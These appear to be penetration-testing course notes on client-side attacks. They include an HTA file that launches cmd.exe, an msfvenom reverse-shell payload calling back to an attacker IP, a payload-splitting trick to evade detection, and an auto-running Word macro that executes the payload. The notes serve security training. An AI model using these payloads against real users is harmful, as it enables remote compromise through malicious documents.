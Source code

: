 # Module 13 (Clint Side Attacks)

<figure><img src="../../.gitbook/assets/image (347).png" alt=""><figcaption></figcaption></figure>

### Know Your Target (Enum)

* **Passive Enumeration:**
  * Identify the victim's browser.
* **Active Enumeration:**
  * **Social Engineering:**
    * Craft messages or scenarios to manipulate users into revealing sensitive information or performing actions.

### Leveraging HTML Apps <a href="#leveraging-html-apps" id="leveraging-html-apps"></a>

* **Tool:** [**fingerprintjs2**](https://github.com/LukasDrgon/fingerprintjs2)
  * A JavaScript library to uniquely identify a browser based on its features.
* **HTA Attack:**
  * Create an HTA (HTML Application) to execute malicious scripts.
    *   Example HTA file (`file.hta`):



        ```html
        <!DOCTYPE html>
        <html>
        <head>
            <script>
            var x='cmd.exe'
            new ActiveXObject('WScript.shell').Run(x);
            </script>
        </head>
        <body>
            <script> self.close() </script> 
        </body>
        </html>
        ```
    *   Copy the HTA file to a web server:



        ```sh
        sudo cp file.hta /var/www/html/file2.hta
        ```
    *   Generate an HTA payload with msfvenom:



        ```bash
        sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.114.134 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
        ```

<figure><img src="../../.gitbook/assets/image (348).png" alt=""><figcaption></figcaption></figure>

### Exploiting Microsoft Office <a href="#exploiting-microsoft-office" id="exploiting-microsoft-office"></a>

* **Word Macro:**
  *   Split the payload to evade detection.



      ```
      str="" # payload from msfvenom
      n=50
      for i in range(0,len(str),n):
          print "str = Str +" + '"' + str[i:i+n] + '"'
      ```
  *   Add the split payload to a Word Macro (`document.docm`).

      Copy

      ```
      Sub AutoOpen()
          test1
      End Sub

      Sub Doc_Open()
          test1
      End Sub

      Sub test1()
          Dim Str As String
          ' Add the splitted payload here
          CreateObject("Wscript.shell").Run Str
      End Sub
      ```
* **Object Linking and Embedding (OLE):**
  * Create an evil batch file (`evil.bat`).
  * Create a link object in the Word document (`document.docm`).

**Resources:**

* [fingerprintjs2 GitHub Repository](https://github.com/LukasDrgon/fingerprintjs2)
* [Metasploit Framework (msfvenom)](https://www.metasploitunleashed.com/msfvenom/)
* [Microsoft VBA Programming](https://docs.microsoft.com/en-us/office/vba/api/overview/)

